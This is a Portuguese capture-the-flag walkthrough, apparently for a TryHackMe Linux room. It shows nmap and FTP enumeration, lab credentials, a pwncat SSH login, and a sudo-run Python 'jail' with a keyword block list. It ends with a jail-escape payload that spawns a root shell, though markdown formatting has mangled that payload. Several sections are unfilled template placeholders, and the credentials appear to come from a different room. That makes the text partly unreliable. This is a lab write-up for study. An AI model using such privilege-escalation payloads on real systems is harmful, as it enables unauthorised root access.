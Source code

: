 ```yaml
---
title: Plataforma - Nome Modelo
author: mithr4nd1r
date: 2022-11-29 00:00:00 -0300
categories: [Walkthrough, Plataforma]
tags: [writeup, walkthrough, tryhackme, thm, tutorial, hacking, pentest, ctf, capture, flag, linux, medium, médio]
mermaid: true
image: https://pm1.narvii.com/6423/6ceaa4749eeb98d7ac41c7b1eead16646c7857be_00.jpg
  w: 155
  h: 126
pin: true
---
```


Dificuldade | Opinião | 📅 Início | 📅 Conclusão
:--:|:--:|:--:|:--:
![](/assets/img/nivel/button_facil.png) | ![](/assets/img/nivel/button_medio.png) | 16 de Dezembro de 2022 | 16 de Dezembro de 2022


## Escaneamento

Iniciamos nosso escaneamento como sempre, varrendo todas as portas, verificando as versões e realizando alguns testes rápidos de scripts.
- Comando: `nmap -sSV -A -v -Pn -p- --min-rate=10000 10.10.208.57`

```console
{nmap scan}
```

## Enumeração

Partindo para enumeração verificamos o serviço ....
### FTP (21) - Versão: vsftpd 3.0.3

- Comando: `ftp 10.10.208.57`
```console
{resultado do comando}
```

Encontramos credenciais que podem ser úteis:
> `backup@spookysec.local`:`backup2517860`
{: .prompt-info }

Podemos observar que ... então a partir desse dado encontramos o ponto de entrada


## Exploração (Acesso Inicial)

Para conseguir o acesso inicial seguimos na linha de raciocínio de utilizar tal exploit em tal serviço..

- Comando: `pwncat-cs ssh://kamishiro@10.10.208.57`
```console
01:55:24 root@m1thr4d1r tokyoghoul → pwncat-cs ssh://kamishiro@10.10.208.57
/root/.local/pipx/venvs/pwncat-cs/lib/python3.10/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[13:56:45] Welcome to pwncat 🐈!                                        __main__.py:164
Password: ***********
[13:57:16] 10.10.208.57:22: registered new host w/ db                    manager.py:957
(local) pwncat$                                                                        
(remote) kamishiro@vagrant:/home/kamishiro$ id
uid=1001(kamishiro) gid=1001(kamishiro) groups=1001(kamishiro)
```

## Pós-Exploração (Escaneamento Interno)

Com o acesso interno realiza-se uma enumeração interna utilizando ...
- Comando: `sudo -l`
```console
    [sudo] password for kamishiro: 
    Matching Defaults entries for kamishiro on vagrant.vm:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User kamishiro may run the following commands on vagrant.vm:
        (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```


```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

## Escalação de Privilégio

Sabemos que temos de alguma forma bypassar a restrição de palavras do script para escalar privilégio, assim pesquisei no google por "python jail escape" e encontrei uma possível solução...
[Escaping Python Jails](https://anee.me/escaping-python-jails-849c65cf306e)

- Comandos: `sudo /usr/bin/python3 /home/kamishiro/jail.py`

```python
**__builtins__**.__**dict__**['__**IMPORT__**'.lower()](https://www.notion.so/'OS'.lower()).__**dict__**['SYSTEM'.lower()]('/bin/bash -p')
```

![Untitled](https://mithr4nd1r.github.io/assets/img/tryhackme/tokyoghoul/Untitled9.png)